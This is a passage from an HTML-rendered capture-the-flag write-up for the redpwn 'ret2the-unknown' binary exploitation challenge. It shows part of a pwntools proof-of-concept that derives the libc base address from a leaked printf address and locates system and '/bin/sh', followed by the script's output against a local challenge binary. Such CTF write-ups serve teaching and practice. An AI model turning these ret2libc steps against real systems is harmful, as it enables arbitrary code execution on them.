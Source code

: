 </span><span class="c1 c12">## Get base libc address</span><span class="c1">  
libc = ELF(</span><span class="c1 c4">"libc-2.28.so"</span><span class="c1"> , checksec = False)  
libc.address = int(printf_address,16) - libc.symbols[</span><span class="c1 c4">"printf"</span><span class="c1">]  

</span><span class="c1 c12">## Get system and bin_sh addresses ready</span><span class="c1">  
system = libc.symbols[</span><span class="c1 c4">"system"</span><span class="c1">]  
bin_sh = next(libc.search(b</span><span class="c1 c4">"/bin/sh"</span><span class="c1">))  

log.success(f</span><span class="c1 c4">"libc base found at: {hex(libc.address)}"</span><span class="c1">)  
log.info(f</span><span class="c1 c4">"system at: {hex(system)}"</span><span class="c1">)  
log.info(f</span><span class="c1 c4">"/bin/sh at: {hex(bin_sh)}"</span><span class="c1">)  
p.interactive()</span>

</td>

</tr>

</tbody>

</table>

<span class="c11"></span>

<span>Observe the following addresses denoted in red when executing</span> <span class="c9">poc.py</span><span class="c11">:</span>

<a id="t.506372fb09587a820e6d3cecf9b6882e2d47ccab"></a><a id="t.10"></a>

<table class="c7">

<tbody>

<tr class="c22">

<td class="c0" colspan="1" rowspan="1">

<span class="c1">┌─[0xd4y@Writeup]─[~/business/ctf/redpwn/pwn/ret2the-unknown]  
└──╼ $python3 poc.py  
[+] Starting</span> <span class="c3">local</span><span class="c1">process './ret2the-unknown': pid 7483  
[+] libc base found</span> <span class="c3">at</span><span class="c1">:</span> <span class="c1 c20">0x7fe5b91a7790</span><span class="c1">[*] system</span> <span class="c3">at</span><span class="c1">:</span> <span class="c1 c20">0x7fe5b91ec150</span><span class="c1">[*] /bin/sh</span> <span class="c3">at</span><span class="c1">:</span> <span class="c1 c20">0x7fe5b9328ca9</span><span class="c1">[*] Switching</span> <span class="c3">to</span><span class="c1"> interactive mode  

</span><span class="c3">that</span><span class="c1">board meeting was a *smashing* success! rob loved</span> <span class="c3">the</span><span class="c1"> challenge!  
</span><span class="c3">in</span><span class="c1">fact, he loved</span> <span class="c3">it</span><span class="c1">so much he sponsored</span> <span class="c3">me</span><span class="c1">a business trip</span> <span class="c3">to</span><span class="c1"> this place called 'libc'...  
</span><span class="c3">where</span><span class="c1"> </span><span class="c3">is</span><span class="c1">this place? can you help</span> <span class="c3">me</span><span class="c1"> </span><span class="c3">get</span><span class="c1">there safely?  
$ test  
phew, good</span> <span class="c3">to</span><span class="c1">know. shoot! i forgot!  
rob said i'd need this</span> <span class="c3">to</span><span class="c1"> </span><span class="c3">get</span><span class="c1">there: 7fe5b91ffcf0  
good luck!  
[*] Got EOF</span> <span class="c3">while</span><span class="c1">reading</span> <span class="c3">in</span><span class="c1"> interactive</span>
